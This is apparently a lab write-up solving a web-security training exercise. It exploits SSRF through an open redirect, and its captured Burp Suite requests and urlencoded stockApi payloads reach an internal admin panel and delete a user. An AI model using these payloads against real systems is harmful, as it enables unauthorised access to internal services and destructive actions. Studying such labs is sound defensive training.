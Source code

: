 
## Intercepting the main stock-fetch request in BurpSuite

```http

POST /product/stock HTTP/2
Host: 0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```none
stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1
```

> with 'urlencode' extension

```none

stockApi=<@urlencode>/product/stock/check?productId=14&storeId=1</@urlencode>

```

> I need to bypass regular CSRF protection.
> On the product description page there is an option to open the next product (next product).

## Intercepting this request (functionality next product)

```http

GET /product/nextProduct?currentProductId=15&path=/product?productId=16 HTTP/2
Host: 0a9e004c0393e4df8052ad46005c008a.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e004c0393e4df8052ad46005c008a.web-security-academy.net/product?productId=15
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> I use SSRF filter bypass technology via open redirect. I replace the value of the “path” parameter with “http://192.168.0.12:8080/admin/” in main reqeust
> and receive a response with access to the admin panel.

```none

stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/</@urlencode>

```

> I access the admin panel and users.

![Access Admin panel](./screenshots/access_admin_panel.png)

> I delete the user 'Carlos' with url 'http://192.168.0.12:8080/admin/delete?username=carlos'

```none
 
stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/delete?username=carlos</@urlencode>

```

![Solved lab](./screenshots/solved_lab.png)
